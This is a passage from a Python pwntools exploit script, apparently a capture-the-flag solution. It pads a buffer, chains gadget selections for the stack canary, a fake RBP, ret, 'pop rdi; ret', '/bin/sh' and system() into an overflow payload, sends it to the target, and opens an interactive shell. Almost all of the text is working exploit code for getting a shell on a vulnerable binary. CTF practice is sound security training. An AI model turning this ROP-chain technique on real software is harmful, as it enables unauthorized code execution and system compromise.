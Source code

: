 ```python
# First 33 bytes: literal padding
overflow = b"A" * 33
log.info(f"  Padding: {len(overflow)} bytes")

# Select our ROP tokens
overflow += bytes([calc_input(n_tokens - 5)])  # Token 107: canary
log.info(f"  Added canary selection (token {n_tokens-5})")

overflow += bytes([calc_input(n_tokens - 1)])  # Token 111: fake RBP (reuse system)
log.info(f"  Added fake RBP selection (token {n_tokens-1})")

overflow += bytes([calc_input(n_tokens - 4)])  # Token 108: ret
log.info(f"  Added ret selection (token {n_tokens-4})")

overflow += bytes([calc_input(n_tokens - 3)])  # Token 109: pop rdi; ret
log.info(f"  Added pop rdi selection (token {n_tokens-3})")

overflow += bytes([calc_input(n_tokens - 2)])  # Token 110: "/bin/sh"
log.info(f"  Added /bin/sh selection (token {n_tokens-2})")

overflow += bytes([calc_input(n_tokens - 1)])  # Token 111: system()
log.info(f"  Added system() selection (token {n_tokens-1})")

log.success(f"Overflow payload ready: {len(overflow)} bytes")

# Send overflow payload
log.info("Sending overflow payload...")
io.sendlineafter(b'>', b'2')
io.sendlineafter(b'>', overflow)

# ============================================================================
# STAGE 4: INTERACT WITH SHELL
# ============================================================================
log.info("=" * 70)
log.success("🎉 SHELL SPAWNED!")
log.info("=" * 70)

# Clean up any remaining output
io.clean()

log.info("Commands you can try:")
log.info("  cat flag")
log.info("  ls -la")
log.info("  whoami")
log.info("")

# Drop to interactive mode
io.interactive()
```

---
